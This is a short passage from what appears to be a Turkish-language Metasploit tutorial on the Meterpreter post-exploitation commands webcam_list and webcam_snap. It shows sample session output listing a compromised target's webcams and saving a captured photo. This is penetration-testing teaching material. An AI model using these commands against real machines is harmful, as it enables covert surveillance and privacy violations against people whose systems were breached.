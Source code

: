 
Hedef sistemde kullanılabilir durumda olan web kameralarını listeler.


```bash
meterpreter > webcam_list
1: Creative WebCam NX Pro
2: Creative WebCam NX Pro **(**VFW**)**
meterpreter >
```



## webcam_snap



Hedef sistemin web kamerasından bir adet fotoğraf alır ve yerelde bulunduğunuz klasöre .jpeg formatında kayıt eder.


```bash
meterpreter > webcam_snap -i 1 -v false
> Starting...
**[**+] Got frame
> Stopped
Webcam shot saved to: /root/Offsec/YxdhwpeQ.jpeg
meterpreter >
```
